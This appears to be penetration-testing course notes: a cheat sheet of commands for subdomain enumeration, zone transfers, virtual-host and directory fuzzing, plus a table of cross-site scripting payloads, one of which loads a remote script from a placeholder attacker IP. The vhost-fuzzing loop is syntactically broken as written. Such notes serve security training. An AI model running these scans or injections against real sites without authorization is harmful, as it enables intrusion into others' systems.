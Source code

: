 ### Active Subdomain Enumeration

| Resource/Command | Description |
| --- | --- |
| HackerTarget | [https://hackertarget.com/zone-transfer/](https://hackertarget.com/zone-transfer/) |
| SecLists | [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) |
| `nslookup -type=any -query=AXFR $TARGET nameserver.target.domain` | Zone Transfer using Nslookup against the target domain and its nameserver. |
| `gobuster dns -q -r "${NS}" -d "${TARGET}" -w "${WORDLIST}" -p ./patterns.txt -o "gobuster_${TARGET}.txt"` | Bruteforcing subdomains. |

### Virtual Hosts

| Resource/Command | Description |
| --- | --- |
| `curl -s http://192.168.10.10 -H "Host: randomtarget.com"` | Changing the HOST HTTP header to request a specific domain. |
| `cat ./vhosts.list while read vhost;do echo "\n********\nFUZZING: ${vhost}\n********";curl -s -I http://<IP address> -H "HOST: ${vhost}.target.domain" | grep "Content-Length: ";done` | Bruteforcing for possible virtual hosts on the target domain. |
| `ffuf -w ./vhosts -u http://<IP address> -H "HOST: FUZZ.target.domain" -fs 612` | Bruteforcing for possible virtual hosts on the target domain using ffuf. |

### Crawling

| Resource/Command | Description |
| --- | --- |
| ZAP | [https://www.zaproxy.org/](https://www.zaproxy.org/) |
| `ffuf -recursion -recursion-depth 1 -u http://192.168.10.10/FUZZ -w /opt/useful/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt` | Discovering files and folders that cannot be spotted by browsing the website. |
| `ffuf -w ./folders.txt:FOLDERS,./wordlist.txt:WORDLIST,./extensions.txt:EXTENSIONS -u http://www.target.domain/FOLDERS/WORDLISTEXTENSIONS` | Mutated bruteforcing against the target web server. |

# Javascript deobfuscation

| Websites |
| --- |
| JS Console Prettier |
| Beautifier |
| JSNice |

# Cross-site scripting (XSS)

| Code | Description |
| --- | --- |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')\[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |